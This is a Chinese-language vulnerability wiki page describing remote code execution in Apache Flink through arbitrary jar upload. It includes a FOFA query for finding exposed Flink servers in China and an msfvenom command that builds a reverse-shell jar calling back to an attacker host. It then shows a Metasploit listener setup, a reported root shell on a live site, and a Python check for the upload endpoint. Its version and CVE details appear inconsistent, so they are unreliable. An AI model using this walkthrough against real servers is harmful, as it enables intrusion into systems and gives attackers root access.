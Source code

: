 # Apache Flink <= 1.9.1(最新版本) 远程代码执行 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

##  漏洞影响

> [!NOTE]
>
> Apache Flink  <= 1.9.1(最新版本)

## FOFA

```fofa
FOFA 语句
app="Apache-Flink" && country="CN"
```

![](http://wikioss.peiqi.tech/vuln/flink-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

国内还是很多使用 `Apache Flink` 的，大概有1000的数量左右

## 漏洞复现

打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](http://wikioss.peiqi.tech/vuln/flink-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

点击查看文件上传页面

![](http://wikioss.peiqi.tech/vuln/flink-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![](http://wikioss.peiqi.tech/vuln/flink-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![](http://wikioss.peiqi.tech/vuln/flink-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

点击下 submit 

![](http://wikioss.peiqi.tech/vuln/flink-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹回来一个root 权限shell

![](http://wikioss.peiqi.tech/vuln/flink-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Flink <= 1.9.1          \033[0m')
    print('+  \033[36m使用格式: python3 Apache_Flink.py         \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jars/upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "Unable to load requested file /jars/upload." in response.text:
            print("\033[32m[o] 可能存在 Apache Flink <= 1.9.1 远程代码执行漏洞\n\033[0m")
        else:
            print("\033[31m[x] 目标Url 文件上传模块无法使用\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/flink-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

